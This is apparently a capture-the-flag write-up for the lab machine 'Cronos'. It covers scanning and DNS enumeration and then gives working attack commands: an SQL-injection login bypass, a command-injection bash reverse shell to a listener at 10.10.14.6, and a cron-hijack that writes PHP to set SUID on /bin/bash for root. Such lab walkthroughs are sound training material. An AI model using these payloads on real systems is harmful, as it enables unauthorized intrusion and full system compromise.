# Cronos

## Scanning

furious 10.10.10.13
sudo nmap -sC -sV -sS -p22,53,80 -Pn -n 10.10.10.13 -oN targeted

# 80

whatweb 10.10.10.13



## using nmap to fuzze the web
nmap --script http-enum.nse -p 80 10.10.10.13 -oN webScan

to analize the capture
```bash
sudo tcpdump -i tun0 -w Captura -v

# ctrl + c

tshark -r Captura -Y 'http.request.method=="GET"' -Tjson 2>/dev/null | grep "GET" | sed 's/^ *//' | tr -d '"' | grep '^GET' | awk '{print $2}'| sort -u
```

# 53

```bash
nslookup
>server 10.10.10.13
>10.10.10.13
13.10.10.10.in-addr.arpa		name = ns1.cronos.htb.
>
```

copy cronos.htb on hosts file


we enter to the site cronos.htb in google chrome


nmap --script http-enum.nse -p 80 cronos.htb



dig @10.10.10.13 cronos.htb ns


dig @10.10.10.13 cronos.htb mx


dig @10.10.10.13 cronos.htb any


we add admin.cronos.htb into the hosts file and enter with google chrome

you could use to enter
```
'or 1=1 -- -
```

```bash
#on attacker machine
nc -lvp 4444

#on the web page
127.0.0.1; bash -c 'bash -i >& /dev/tcp/10.10.14.6/4444 0>&1'
```


cat /home/noulis/user.txt

## privilege scalation
cat /etc/cron*

```bash
mv /var/www/laravel/artisan /var/www/laravel/artisan.bkup
echo "<?php shell_exec('chmod +s /bin/bash') ?>" > /var/www/laravel/artisan
bash -p
cat /root/root.txt
```
